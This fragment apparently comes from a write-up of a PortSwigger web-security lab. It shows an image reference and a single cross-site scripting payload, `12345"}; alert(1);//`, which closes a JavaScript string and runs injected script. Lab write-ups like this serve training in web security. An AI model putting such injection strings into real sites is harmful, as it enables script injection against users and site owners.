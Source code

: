 Payload: `12345"}; alert(1);//`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/db3d1afa-e92c-434e-a920-23353805f91a)
